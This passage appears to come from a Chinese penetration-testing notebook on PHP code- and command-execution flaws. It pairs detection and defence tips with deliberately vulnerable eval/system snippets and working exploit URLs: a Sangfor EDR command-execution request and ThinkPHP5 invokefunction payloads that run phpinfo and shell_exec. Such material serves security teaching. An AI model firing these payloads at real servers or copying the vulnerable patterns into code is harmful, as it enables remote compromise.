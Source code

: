 通过源代码白盒审计，如php重点关注eval，assert，execute，pref_replace函数的参数是否可控，是否严格过滤

```php
<?php
$arg=$_GET['code'];
eval("$arg;");
?>
```

## 防御方法

- 使用addslashes函数进行转义或使用黑白名单过滤
- 禁用或减少使用可执行代码的函数
- 限制web用户权限

# 命令执行漏洞

## 检测方式

- 黑盒测试：关注网站的特殊功能，如ping测试、数据库备份
- 白盒测试：查看命令执行函数参数是否没有过滤可控，如system，shell_exec，popen，passsthru，proc_popen，pcntl_exec

```php
<?php
$arg=$_GET['cmd'];
system("$arg",$ret);
echo 'Return is:'.$ret;
?>
```

深信服edr远程命令执行`https://xxx.xx/tool/log/c.php?strip_slashes=system&host=id`或者`http://xxx.xx/tool/log/c.php?strip_slashes=sytem&path=id`

## 防御方法

- 禁止执行外部应用程序或命令
- 使用escapeshellarg，escapeshellcmd函数处理参数
- 使用safe_modeexec_dir指定可执行的文件路径

# thinkphp5远程命令执行

thinkphp底层没有对控制器名进行严格的合法性校验，，导致在网站没有开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致命令执行。`index.php?s=index/\namespace\class/method`会实例化\namespace\class类并执行method方法。

- 利用index模块、\think\app控制器、同时利用invokefunction方法去反射调用call_user_func_array函数。使用的参数：`function=call_user_func_array`，`vars[0]=phpinfo`，`vars[1][]=-1`，可回显phpinfo。payload：`index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`。
- 利用index模块、\think\app控制器、同时利用invokefunction方法去反射调用call_user_func_array函数。使用的参数：`function=call_user_func_array`，`vars[0]=shell_exec`，`vars[1][]=id`，可回显id命令。payload：`index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=id`

![thinkphp5.xrec](https://raw.githubusercontent.com/king-notfound404/Penetration-Zbook/main/img/thinkphp5.xrec.png)
